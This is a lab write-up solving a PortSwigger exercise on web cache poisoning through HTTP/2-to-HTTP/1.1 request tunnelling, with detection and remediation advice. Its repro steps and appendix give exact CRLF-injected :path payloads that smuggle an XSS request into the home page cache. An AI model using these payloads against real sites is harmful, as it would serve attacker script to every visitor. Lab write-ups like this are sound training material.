 # PS‑012 — Web cache poisoning via HTTP/2 request tunnelling

**Date / Analyst:** 2025-10-03 — Christopher Araque
**Target:** PortSwigger lab (H2→H1 downgrade; `:path` CRLF)
**Impact:** Cache entry for **/** poisoned to reflect **HTML/JS** → victim executes `alert(1)`
**Status:** Solved

## Summary
- The front end **downgrades HTTP/2 to HTTP/1.1** and doesn’t consistently sanitize the **`:path`** pseudo‑header. By injecting **CRLF** into `:path`, I split the request and **tunnelled** a second HTTP/1.1 request. The cache stored the **tunnelled response body** under the first request’s key (**/**). Using `/resources?<script>alert(1)</script>…` as a gadget and padding the nested response to exceed the normal home page `Content‑Length`, I served executable JS from `/`, which fired for the victim.


## Repro (minimal)
1. **HTTP/2** in Repeater. Prove `:path` injection:
    ```
    :path =
    /?cachebuster=1 HTTP/1.1\r\n
    Host: <lab-host>.web-security-academy.net\r\n
    \r\n
    GET /post?postId=1 HTTP/1.1\r\n
    Foo: bar
    ```

    Result: nested `/post` response appears in the body.

2. Note **GET /** `Content-Length` from a clean response (needed for padding).
3. Build XSS via `/resources` with padding so the **nested** body **>** home page `Content-Length`:
    ```
    :path =
    /?cachebuster=3 HTTP/1.1\r\n
    Host: <lab-host>.web-security-academy.net\r\n
    \r\n
    GET /resources?<script>alert(1)</script>AAAA...(pad > home CL)... HTTP/1.1\r\n
    Foo: bar
    ```
    Result: nested response shows `Location: /resources/?<script>alert(1)</script>` and your `A…` padding.

4. **Commit the poison**:
- Send `:path = /?cachebuster=3` → cached.
- Repeat the same technique against the **home page** key:
  ```
  :path =
  / HTTP/1.1\r\n
  Host: <lab-host>.web-security-academy.net\r\n
  \r\n
  GET /resources?<script>alert(1)</script>AAAA...(pad > home CL)... HTTP/1.1\r\n
  Foo: bar
  ```
  Then send `:path = /` every few seconds until the victim fetches it. Browser shows the **Solved** banner when the alert fires.
## Evidence
- Screenshot: [ps-012-screenshot.png](../../evidence/ps-access/ps-012-screenshot.png)
- Request/response & PoC request (final `:path` value for `/`): [ps-012-request.txt](../../evidence/ps-access/ps-012-request.txt)

## Root cause
- **Unsafe H2→H1 translation** allows **CRLF** inside `:path` → **request tunnelling**.
- Cache stores the **tunnelled** body under the first request’s key (**/**).



## Impact
- Stored XSS served from the home page to any visitor.

## Detection tips
- Reject/alert on CTLs/CRLF in HTTP/2 pseudo‑headers.

- Detect HEAD responses whose bodies contain nested `HTTP/1.1` blocks.

- Compare cache keys vs. origin logs for bodies that don’t match paths.


## Remediation
- Enforce RFC‑compliant header parsing; **disallow CR/LF in `:path`**.

- Keep HTTP/2 end‑to‑end, or use a translator that canonicalizes and re‑encodes requests.

- Normalize cache keys; avoid caching HEAD bodies; HTML‑escape redirect targets.


## Appendix: raw PoC (from lab run)
Outer: HTTP/2 **HEAD**; cache key `/` (or `/?cachebuster=N` for testing).
Injected **`:path` value** (final variant used):
    ```
    / HTTP/1.1\r\n
    Host: <lab-host>.web-security-academy.net\r\n
    \r\n
    GET /resources?<script>alert(1)</script>AAAA...(pad > home CL)... HTTP/1.1\r\n
    Foo: bar
    ```



